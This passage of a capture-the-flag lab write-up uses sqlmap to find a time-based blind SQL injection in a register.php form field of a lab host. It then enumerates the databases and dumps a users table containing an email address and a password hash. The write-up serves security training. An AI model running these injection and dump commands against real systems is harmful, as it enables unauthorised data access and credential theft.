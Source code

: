     Nmap done: 1 IP address (1 host up) scanned in 41.15 seconds
    ```
    Use `sqlmap` to find which parameter is vulnerable.<br>
    ```
    $ sqlmap -u http://10.10.239.220/register.php --forms
    [SNIP]
    [11:38:45] [INFO] POST parameter 'log_email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    ```
    **Answer:** log_email

1. What is Santa Claus' email address?<br>
    Use `sqlmap -p log_email --dbs` to get all the database name.<br>
    ```
    [11:45:10] [INFO] retrieved: information_schema
    [11:49:04] [INFO] retrieved: mysql
    [11:50:11] [INFO] retrieved: performance_schema
    [11:53:58] [INFO] retrieved: phpmyadmin
    [11:56:13] [INFO] retrieved: social
    [11:57:26] [INFO] retrieved: sys
    ```
    Find all tables in social database with `sqlmap -p log_email -D social --tables`.<br>
    ```
    Database: social
    [8 tables]
    +-----------------+
    | comments        |
    | friend_requests |
    | likes           |
    | messages        |
    | notifications   |
    | posts           |
    | trends          |
    | users           |
    +-----------------+
    ```
    Get contents of table users with `sqlmap -p log_email -D social -T users --dump`
    ```
    [12:27:02] [INFO] retrieved: id
    [12:27:40] [INFO] retrieved: first_name
    [12:31:00] [INFO] retrieved: last_name
    [12:34:02] [INFO] retrieved: username
    [12:36:18] [INFO] retrieved: email
    [12:37:40] [INFO] retrieved: password
    [12:40:20] [INFO] retrieved: signup_date
    [12:44:06] [INFO] retrieved: profile_pic
    [12:48:02] [INFO] retrieved: num_posts
    [12:51:36] [INFO] retrieved: num_likes
    [12:54:45] [INFO] retrieved: user_closed
    [12:58:28] [INFO] retrieved: friend_array
    ```
    Get email and password of the table with `-C email,password`.<br>
    ```
    bigman@shefesh.com
    [23:27:57] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
    ```
    **Answer:** bigman@shefesh.com
